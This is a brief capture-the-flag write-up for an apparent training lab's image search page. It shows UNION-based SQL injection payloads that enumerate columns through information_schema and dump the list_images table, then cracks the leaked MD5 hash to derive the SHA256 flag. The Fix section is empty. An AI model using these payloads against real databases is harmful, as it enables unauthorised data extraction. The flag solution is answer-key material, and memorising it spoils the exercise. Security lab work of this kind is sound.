 # Image search SQL injection

## Vulnerability
* Go to `Search image`
* List columns of table `list_images` (hex `0x6c6973745f696d61676573`)
```
null union select null,column_name from information_schema.columns where  table_name=0x6c6973745f696d61676573
```
* Read `list_images` table
```
null union select title,comment from list_images 
```
* Outputs
```
title: If you read this just use this md5 decode lowercase then sha256 to win
 this flag ! : 1928e8083cf461a51303633093573c46
comment: Hack me ?
```
* https://md5hashing.net/hash/md5/1928e8083cf461a51303633093573c46
* MD5 `1928e8083cf461a51303633093573c46` <-> `albatroz`
* `albatroz` <-> SHA256 `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

## Attack

## Fix

## Reference
https://portswigger.net/web-security/sql-injection/union-attacks
https://en.wikipedia.org/wiki/Information_schema
